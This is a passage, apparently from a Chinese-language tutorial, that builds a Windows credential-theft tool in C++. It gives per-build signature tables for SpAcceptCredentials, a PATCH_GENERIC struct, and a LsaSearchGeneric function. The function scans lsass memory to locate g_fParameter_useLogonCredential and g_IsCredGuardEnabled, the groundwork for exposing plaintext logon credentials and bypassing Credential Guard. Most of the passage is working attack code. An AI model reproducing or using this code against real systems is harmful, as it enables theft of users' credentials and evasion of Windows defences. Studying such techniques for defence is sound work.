 ```c++
	{WIN_BUILD_10_2004,	{sizeof(PTRN_WIN2022_SpAcceptCredentials),	PTRN_WIN2022_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_20H2,	{sizeof(PTRN_WIN2022_SpAcceptCredentials),	PTRN_WIN2022_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_10_21H2,	{sizeof(PTRN_WIN2022_SpAcceptCredentials),	PTRN_WIN2022_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_MIN_BUILD_11,	{sizeof(PTRN_WIN2022_SpAcceptCredentials),	PTRN_WIN2022_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
	{WIN_BUILD_2022,	{sizeof(PTRN_WIN2022_SpAcceptCredentials),	PTRN_WIN2022_SpAcceptCredentials},	{0, NULL}, {-16, -10}},
};
```

数组中的每个成员都是一个 `PATCH_GENERIC` 结构体，用于保存特征码的匹配规则，其结构定义如下。

```c++
typedef struct _PATCH_GENERIC {
	DWORD MinBuildNumber;     // 系统版本号
	PATCH_PATTERN Search;     // 包含特征码
	PATCH_PATTERN Patch;
	PATCH_OFFSETS Offsets;    // 保存 g_fParameter_useLogonCredential 和 g_IsCredGuardEnabled 偏移量值的四个字节的偏移量
} PATCH_GENERIC, * PPATCH_GENERIC;
```

下面开始编写 `LsaSearchGeneric()` 函数，定义如下。

```c++
BOOL LsaSearchGeneric(PLSA_CONTEXT cLsass, PLSA_LIB pLib, PPATCH_GENERIC genericReferences, SIZE_T cbReferences, PVOID* genericPtr, PVOID* genericPtr1)
{
	BOOL status = FALSE;
	MEMORY_SEARCH sMemory = { {pLib->Informations.DllBase.address, pLib->Informations.SizeOfImage}, NULL };
	PPATCH_GENERIC currentReference;
	LONG offset;
	MEMORY_ADDRESS lsassMemory;

	if (currentReference = GetGenericFromBuild(genericReferences, cbReferences, cLsass->osContext.BuildNumber))
	{
		if (MemorySearch(cLsass->hProcess, currentReference->Search.Pattern, currentReference->Search.Length, &sMemory))
		{
			wprintf(L"[*] Matched signature at 0x%016llx: ", sMemory.result);
			PrintfHex(currentReference->Search.Pattern, currentReference->Search.Length);

			lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off0;
			if (status = ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset, sizeof(LONG), NULL))
			{
				*genericPtr = ((PBYTE)lsassMemory.address + sizeof(LONG) + offset);
			}

			if (genericPtr1)
			{
				lsassMemory.address = (PBYTE)sMemory.result + currentReference->Offsets.off1;
				if (status = ReadProcessMemory(cLsass->hProcess, lsassMemory.address, &offset, sizeof(LONG), NULL))
				{
					*genericPtr1 = ((PBYTE)lsassMemory.address + sizeof(LONG) + offset);
				}
			}
		}
	}
```